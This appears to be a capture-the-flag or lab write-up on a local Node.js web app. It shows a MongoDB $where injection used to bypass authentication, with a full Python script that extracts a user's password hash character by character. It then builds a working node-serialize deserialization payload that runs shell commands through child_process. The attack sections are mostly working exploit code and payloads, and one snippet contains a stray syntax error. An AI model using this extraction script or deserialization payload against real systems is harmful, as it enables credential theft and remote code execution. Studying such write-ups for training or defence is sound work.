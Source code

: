 # 1- Authentication Bypass

## 1.1 - SQL Injection

We can see in the code that MongoDB is running in the web server, in the register field we can see that the register field is vulnerable against SQL Injection : 

```js
var query = {$where: `this.username == '${username}'`};
```

If we try with `' || 1 == '1` we can see that works :

![image](https://user-images.githubusercontent.com/76447395/164094793-b860835d-8627-4d9c-9c2b-e710db6c9c19.png)

So at this point I made a script to automate the SQLi attack :

```py
import requests
s = requests.session()

url = "http://172.17.0.2:3000/register"


def sendQuery(url):
    output = "\n[+] OUTPUT : "
    print(output)
    y = 0
    finish = False
    while finish == False:
        for ascii_char in range(32, 126):

            data = { "username": "john' && this.password.charCodeAt({y})=='{char}".format(y=y,char=ascii_char), 
                        "password": "a" }
            r = s.post(url, data=data)

            if ('User already exists' in r.text):
                print(chr(ascii_char), end='', flush=True)
                output += chr(ascii_char)
                y += 1
                break
        else:
            return output

if __name__ == "__main__":
    sendQuery(url)
```

Output : `96d9632f363564cc3032521409cf22a852f2032eec099ed5967c0d000cec607a`

We can just crack the password -> `john`. 

# 2- RCE (Remote Code Execution)

## 2.1- NodeJS Deserialization

If we look around the source we can find out that when we save a message, this message is being unserialized. The following code shows how the message is saved :

```js
} else if (save != null) {
    console.log('    -- Save');
    var cookie_val = Buffer.from(serialize.serialize({'msg':req.body.message})).toString('base64');
    res.cookie('draft',cookie_val,{maxAge:900000,httpOnly:true});
}
```

The message is saved in the `draft` cookie and then it's unserialized :

```js
if (req.session.logged_in && req.cookies.draft) {
    draft = serialize.unserialize(new Buffer(req.cookies.draft, 'base64').toString()).msg;
}
```

The web server is using `node-serialize`, this library allows to serialize functions, for example :

```js
var y = {
 "rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

Output : `{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}`

If we look at the output, we realize that there is a flag `_$$ND_FUNC$$_`, which is appended to the serialized object. Let's dig into the vulnerability here, if we go to 
`node_modules/node_serialize/lib/serialize.js` we can see that in the case that the `FUNCFLAG` (`_$$ND_FUNC$$_`) is found, eval is used to deserialize the funcion, so the 
user input will be executed :

```js
if(obj[key].indexOf(FUNCFLAG) === 0) {
        obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
}
```

We know that the saved message object looks like : `{"msg":"foo"}`. So le's try to inject code there, in our case we'll be serializing this function :

```js
var y = {
    "msg": function(){ 
        require('child_process').exec('whoami', function(error, stdout, stderr) { 
            console.log(stdout) 
        })
    },
   }
```

So let's get the serialized object :

```js
var y = {"msg": function(){ require('child_process').exec('whoami', function(error, stdout, stderr) {console.log(stdout)})},()}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

Output : `{"msg":"_$$ND_FUNC$$_function(){ require('child_process').exec('whoami', function(error, stdout, stderr) {console.log(stdout)})}"}`

Nice, but we have to add `()` at the final of the code for it to execute. We're gonna input `_$$ND_FUNC$$_function(){ require('child_process').exec('whoami', 
function(error, stdout, stderr) {console.log(stdout)})}()`

If we look at the console we see this :

![image](https://user-images.githubusercontent.com/76447395/164091479-313745a5-a7f6-489c-ab61-d69aabacb020.png)

Nice, it worked!
